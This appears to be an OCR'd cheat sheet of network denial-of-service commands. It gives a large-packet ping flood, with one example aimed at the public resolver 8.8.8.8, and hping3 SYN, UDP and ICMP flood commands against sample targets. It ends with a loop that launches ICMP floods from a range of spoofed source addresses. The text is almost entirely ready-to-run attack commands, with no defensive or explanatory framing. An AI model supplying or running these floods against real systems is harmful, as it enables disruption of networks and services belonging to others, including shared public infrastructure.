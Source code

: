 **ICMP PING PACKET**
command
sudo ping -f -s 65500 8.8.8.8

example
sudo ping -f -s 65500 192.168.1.10


**TCP Syn Flood Packet**
command
sudo hping3 -S -p <port> --flood <target_IP>

example
sudo hping3 -S -p 80 --flood 192.168.1.10


**UDP Flood Packet**
command
sudo hping3 --udp -p <port> --flood <target_IP>

example
sudo hping3 --udp -p 53 --flood 192.168.1.10


**Raw IP Flood Traffic**
command
sudo hping3 -1 --flood <target_IP>

example
sudo hping3 -1 --flood 192.168.1.10


**For multiple flood Attack**
for ip in 192.168.1.{100..110}; do
    sudo hping3 -1 --flood -a $ip <target_IP> &
done








